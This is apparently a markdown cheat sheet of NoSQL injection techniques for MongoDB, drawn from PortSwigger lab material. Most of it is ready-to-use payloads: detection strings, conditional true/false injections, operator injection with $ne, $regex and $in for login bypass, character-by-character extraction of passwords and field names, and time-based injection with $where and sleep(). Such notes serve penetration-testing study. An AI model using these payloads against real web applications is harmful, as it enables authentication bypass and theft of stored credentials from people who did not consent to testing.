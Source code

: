 ### Basic operator difference between SQLi && NoSQLi
  1. `or` >> `||`
  2. `and` >> `&&`
  3. `-- -` >> `%00`
---
### Detecting NoSQLi Vulnerability
**For MongoDB Detection:**
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
**Causing syntax error in MongoDB**
```
'
```
**Escaping the syntax error in MongoDB**
```
\'
```
Or we can try,
```
%00
```
**Injecting in JSON Format**
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
**Others :**
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```
**Example with explanation :**

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.
  4. Same as 3.
### NoSQL operator injection

`$where` - Matches documents that satisfy a JavaScript expression.
<br>
`$ne` - Matches all values that are not equal to a specified value.
<br>
`$in` - Matches all of the values specified in an array.
<br>
`$regex` - Selects documents where values match a specified regular expression.
<br>
<br>
Details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

### Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
<br>
<br>
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.
<br>
<br>
If this doesn't work, you can try the following:
<br>
<br>
  `1.` Convert the request method from `GET` to `POST`.
  <br>
  `2.` Change the `Content-Type` header to `application/json`.
  <br>
  `3.` Add `JSON` to the `message body`.
  <br>
  `4.` Inject `query` operators in the `JSON`.
### MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-07-12 03-55-31](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)
<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
### MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} >> For extracting password via operator
```
### Identifying field names
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is a username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
### Operator Injection To Retrieving Unknown Data
```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
```
### Time based NoSQL Injection
```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```
**Data Retrieve**
Initial Request
```
{
  "product": "Tablet",
  "price": 350,
}
```
Malformed Request
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```
